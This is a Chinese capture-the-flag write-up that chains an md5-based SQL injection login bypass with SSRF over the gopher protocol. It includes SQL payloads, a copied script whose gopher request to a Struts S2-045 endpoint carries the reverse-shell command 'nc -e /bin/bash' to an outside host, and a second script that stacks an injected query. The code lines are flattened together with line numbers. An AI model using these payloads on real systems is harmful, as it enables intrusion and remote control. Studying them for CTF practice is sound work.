

“慢慢做”管理系统 这道题是sql和ssrf的结合，感觉还是挺有意思的。可惜自己SSRF真的菜，
第一步比较坑，这个比较难想到..
不过好险后门给了hint：
1 2 这个sql吧，有点ssrf的样子，首页是一个很普通的sql注入，没有什么花样，但是我的admin.php是一个内网的管理系统，只要你用“真-admin”的密码登录了，就可以拿到flag，反正慢慢做就对了，不要急躁，静下心。 第一步登录的sql语句是"SELECT * FROM users WHERE password = '".md5($password,true)."' limit 0,1";
那我们尝试ffifdyop，结果被过滤了，不过没事，还有另外几个payload：
1 2 3 4611686052576742364 e58 129581926211651571912466741651878684928
随后打一个都可以。
进去之后允许我们打ssrf了，
这个提示很明显了，用gopher协议去打，可惜自己并不会ssrf【】。
看了篇这个文章，发现可以试试看这个：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 https://zhuanlan.zhihu.com/p/112055947 脚本： import urllib2,urlliburl = "http://192.168.0.109/ssrf/base/curl_exec.php?url=" header = """gopher://192.168.0.119:8080/_GET /S2-045/ HTTP/1.1 Host:192.168.0.119 Content-Type:""" cmd = "nc -e /bin/bash 192.168.0.109 6666" content_type = """自己填写(不要有换行)""" header_encoder = "" content_type_encoder = "" content_type_encoder_2 = "" url_char = [" " ] nr = "\r\n" for single_char in header: if single_char in url_char: header_encoder += urllib.quote(urllib.quote(single_char,'utf-8' ),'utf-8' ) else : header_encoder += single_char header_encoder = header_encoder.replace("\n" ,urllib.quote(urllib.quote(nr,'utf-8' ),'utf-8' )) for single_char in content_type: content_type_encoder += str (hex (ord (single_char))) content_type_encoder = content_type_encoder.replace("0x" ,"%" ) + urllib.quote(nr,'utf-8' ) for single_char in content_type_encoder: content_type_encoder_2 += str (hex (ord (single_char))) content_type_encoder_2 = content_type_encoder_2.replace("0x" ,"%" ) exp = url + header_encoder + content_type_encoder_2 print exprequest = urllib2.Request(exp) response = urllib2.urlopen(request).read() print response
其实会打ssrf的话这题并不是很难，跟强网杯的随便注是一个意思，直接照抄思路即可。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 import requestsimport reimport urllibz = "username={}&password=123" .format ("admin';show databases;" ) a = '''POST /admin.php HTTP/1.1 Host: 127.0.0.1 Connection: close Content-Type: application/x-www-form-urlencoded Content-Length: {} {}''' a = a.format (len (z), z) res = urllib.parse.quote(urllib.parse.quote(a).replace('%0A' , '%0d%0A' )) payload = 'gopher://127.0.0.1:80/_' + res + "%250d%250A" print(payload)
再ctf2中我们可以查看到：

unsetme